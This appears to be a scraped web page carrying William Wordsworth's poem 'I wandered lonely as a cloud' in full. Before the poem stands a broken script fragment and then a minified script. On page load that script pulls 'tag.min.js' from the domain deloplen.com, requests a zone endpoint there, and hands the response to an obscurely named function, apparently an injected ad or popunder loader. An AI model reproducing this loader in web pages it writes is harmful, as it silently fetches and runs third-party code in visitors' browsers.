_;})(document))</script><script>(function(d,z,x,s,e,o){s.src='//'+d+'/tag.min.js';x.open('GET','//'+d+'/apu.php?zoneid='+z+'&oo=1',!0);s.onerror=x.onerror=E;s.onload=x.onload=g;x.send();(document.body||document.documentElement).appendChild(s);function g(){o=this.response?JSON.parse(this.response):o;o&&window.kkp4a5x5tv&&window.kkp4a5x5tv(o);}function E(){e&&e();e=null;}})('deloplen.com',2922832,new XMLHttpRequest(),document.createElement('script'),_sgoej)</script>

I wandered lonely as a cloud  
That floats on high o'er vales and hills,  
When all at once I saw a crowd,  
A host, of golden daffodils;  
Beside the lake, beneath the trees,  
Fluttering and dancing in the breeze.  
  
Continuous as the stars that shine  
And twinkle on the milky way,  
They stretched in never-ending line  
Along the margin of a bay:  
Ten thousand saw I at a glance,  
Tossing their heads in sprightly dance.  
  
The waves beside them danced; but they  
Out-did the sparkling waves in glee:  
A poet could not but be gay,  
In such a jocund company:  
I gazed—and gazed—but little thought  
What wealth the show to me had brought:  
  
For oft, when on my couch I lie  
In vacant or in pensive mood,  
They flash upon that inward eye  
Which is the bliss of solitude;  
And then my heart with pleasure fills,  
And dances with the daffodils.  
